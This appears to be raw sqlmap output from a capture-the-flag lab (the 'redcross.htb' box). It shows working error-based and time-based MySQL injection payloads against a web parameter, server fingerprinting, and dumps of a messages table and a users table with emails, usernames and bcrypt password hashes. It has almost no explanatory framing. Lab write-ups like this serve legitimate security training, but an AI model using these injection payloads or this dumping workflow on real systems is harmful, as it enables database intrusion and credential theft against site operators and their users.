         Type: error-based                                                        
        Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
        Payload: o=9') AND (SELECT 8387 FROM(SELECT COUNT(*),CONCAT(0x7176717671,(SELECT (ELT(8387=8387,1))),0x7170786271,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- vfSo&page=app
                                                                  
        Type: AND/OR time-based blind                         
        Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)      
        Payload: o=9') AND (SELECT * FROM (SELECT(SLEEP(5)))Uqaj)-- eNaD&page=app
    ---                                                             
    [17:43:34] [INFO] the back-end DBMS is MySQL        
    web server operating system: Linux Debian 9.0 (stretch)                     
    web application technology: Apache 2.4.25
    back-end DBMS: MySQL >= 5.0                                             
    ...[snip]...                
    Database: redcross                                      
    Table: messages
    [8 entries]
    +----+----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+------+--------+----------------------------------------------+
    | id | body                                                                                                                                                                                         | dest | origin | subject                                      |
    +----+----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+------+--------+----------------------------------------------+
    | 1  | You're granted with a low privilege access while we're processing your credentials request. Our messaging system still in beta status. Please report if you find any incidence.              | 5    | 1      | Guest Account Info                           |
    | 2  | Hi Penny, can you check if is there any problem with the order? I'm not receiving it in our EDI platform.                                                                                    | 2    | 4      | Problems with order 02122128                 |
    | 3  | Please could you check the admin webpanel? idk what happens but when I'm checking the messages, alerts popping everywhere!! Maybe a virus?                                                   | 3    | 1      | Strange behavior                             |
    | 4  | Hi, Please check now... Should be arrived in your systems. Please confirm me. Regards.                                                                                                       | 4    | 2      | Problems with order 02122128                 |
    | 5  | Hey, my chief contacted me complaining about some problem in the admin webapp. I thought that you reinforced security on it... Alerts everywhere!!                                           | 2    | 3      | admin subd webapp problems                   |
    | 6  | Hi, Yes it's strange because we applied some input filtering on the contact form. Let me check it. I'll take care of that since now! KR                                                      | 3    | 2      | admin subd webapp problems (priority)        |
    | 7  | Hi, Please stop checking messages from intra platform, it's possible that there is a vuln on your admin side...                                                                              | 1    | 2      | STOP checking messages from intra (priority) |
    | 8  | Sorry but I can't do that. It's the only way we have to communicate with partners and we are overloaded. Doesn't look so bad... besides that what could happen? Don't worry but fix it ASAP. | 2    | 1      | STOP checking messages from intra (priority) |
    +----+----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+------+--------+----------------------------------------------+
    ...[snip]...                           
    Database: redcross                                                 
    Table: users                   
    [5 entries]                    
    +----+------+------------------------------+----------+--------------------------------------------------------------+
    | id | role | mail                         | username | password                                                     |
    +----+------+------------------------------+----------+--------------------------------------------------------------+
    | 1  | 0    | admin@redcross.htb           | admin    | $2y$10$z/d5GiwZuFqjY1jRiKIPzuPXKt0SthLOyU438ajqRBtrb7ZADpwq. |             
    | 2  | 1    | penelope@redcross.htb        | penelope | $2y$10$tY9Y955kyFB37GnW4xrC0.J.FzmkrQhxD..vKCQICvwOEgwfxqgAS |
    | 3  | 1    | charles@redcross.htb         | charles  | $2y$10$bj5Qh0AbUM5wHeu/lTfjg.xPxjRQkqU6T8cs683Eus/Y89GHs.G7i |
    | 4  | 100  | tricia.wanderloo@contoso.com | tricia   | $2y$10$Dnv/b2ZBca2O4cp0fsBbjeQ/0HnhvJ7WrC/ZN3K7QKqTa9SSKP6r. |
    | 5  | 1000 | non@available                | guest    | $2y$10$U16O2Ylt/uFtzlVbDIzJ8us9ts8f9ITWoPAWcUfK585sZue03YBAi |
    +----+------+------------------------------+----------+--------------------------------------------------------------+
    